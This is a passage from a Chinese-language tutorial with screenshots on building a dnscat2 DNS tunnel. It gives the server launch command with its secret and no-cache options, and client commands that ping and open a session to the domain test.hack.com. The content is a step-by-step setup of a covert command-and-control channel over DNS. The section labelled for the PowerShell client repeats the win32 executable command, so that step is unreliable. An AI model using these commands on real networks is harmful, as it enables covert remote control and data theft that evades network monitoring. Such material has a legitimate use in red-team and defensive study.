 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKJg2Tg4RJPqRhEG1EDlQ4c1BqOIFUHic38WcmjxaZ8BIslBqCicd3sLBQ/640?wx_fmt=png)  

### （4）：测试客户端服务端是否连通

服务器目前在监听状态，执行以下命令测试客户端能否与服务器进行通信

![](https://mmbiz.qpic.cn/mmbiz_png/US10Gcd0tQHmdzSPtH4ymM026N4bDfJfoBdq9kAzE8MFupNAnlbIKoicu0PvnDEtoL2KyiczAxrKnH0M9sKfKsvA/640?wx_fmt=png)

```
dnscat2-v0.07-client-win32.exe --ping test.hack.com
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKPiaePNeG82icMXWAa1LKGyUvDRTGiaw6ZvnSZJXgSlwlEHFgGQ5zPVGVg/640?wx_fmt=png)

可以看到，服务器收到了客户端的请求

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKG5g128T0ogDJcDy3ibNic4fyKjial0HicTkQlBRysNm6tQeWuH0cibzLjXA/640?wx_fmt=png)

  

---

中继模式建立隧道

### 服务端

在**服务端**执行以下模式进行监听

```
ruby ./dnscat2.rb test.hack.com -e open -c root@123456 --no-cache
    -e：指定安全级别，open表示服务端运行客户端不进行加密
    -c：指定密钥
    --no-cache：禁止缓存，一定添加该选项，因为powershell-dnscat2客户端域dnscat2服务端的Caching模式不兼容
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKSVMObZ5fhf8mWRoOcqfhTmLTiarVqPBIJ0njaD7qCpfaXwvetTKhmvQ/640?wx_fmt=png)

### 客户端

**客户端 (C 语言版本的)** 执行以下命令，连接服务端

```
dnscat2-v0.07-client-win32.exe --dns domain=test.hack.com --secret=root@123456
```

如下，客户端显示 Session established！，表示连接成功。  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKW1hBffwlHNUKWRvE86byDav8rcB7Z6b5CHSLtsbEvJDW6MWFXXczlA/640?wx_fmt=png)

**客户端 (PowerShell 版本)** 执行以下命令，连接服务端

```
dnscat2-v0.07-client-win32.exe --dns domain=test.hack.com --secret=root@123456
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKpuTPAxx5MLCCKicFqI8iaKCvtUME5qTU1J9kqU7UCm1fRyOtxB4zxZJw/640?wx_fmt=png)
